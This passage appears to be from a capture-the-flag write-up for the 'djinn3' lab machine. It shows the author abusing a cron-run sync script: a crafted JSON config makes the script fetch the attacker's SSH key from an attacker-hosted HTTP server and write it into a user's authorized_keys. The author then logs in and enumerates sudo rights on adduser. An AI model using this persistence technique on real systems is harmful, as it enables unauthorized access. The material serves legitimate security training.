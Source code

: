 Analyzing the source files we can assume that there's a cron job running by the user saint that executes `Syncer.py` and the comment in the source file confirms it.

We are a little short on details but here is what we know:
* there is a cronjob that executes `syncer.py`
* The program lists all json files in `/tmp` directory
* The program will look for the most recent file which name is based on the date format and copy the content of the file indicated by the `URL` in the json file to the location indicated by `OUTPUT` by the same file

So I created this json file with the current date and uploaded it to the `/tmp` directory on the victim machine:

```
┌──(root💀kali)-[~/.ssh]
└─# nano 29-07-2022.config.json
                                                                                                                                                                                                                                             
┌──(root💀kali)-[~/.ssh]
└─# cat 29-07-2022.config.json     
{
    "URL": "http://192.168.49.124:8000/id_rsa.pub",
    "Output": "/home/saint/.ssh/authorized_keys"
}
```
I started an http server and waited for a connection:

```
┌──(root💀kali)-[~/.ssh]
└─# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.124.102 - - [29/Jul/2022 15:03:33] "GET /29-07-2022.config.json HTTP/1.1" 200 -
```
Now that our Id_rsa is in the authorized_keys we can SSH to the Victim machine as the user `saint`

```
┌──(root💀kali)-[~/.ssh]
└─# ssh saint@192.168.124.102

saint@djinn3:~$
```

I used Linpeas to enumerate this user and found out that `saint` can use the command `adduser` as root:
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                                                                                                  
Matching Defaults entries for saint on djinn3:                                                                                                                                                                                               
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saint may run the following commands on djinn3:
    (root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin
```
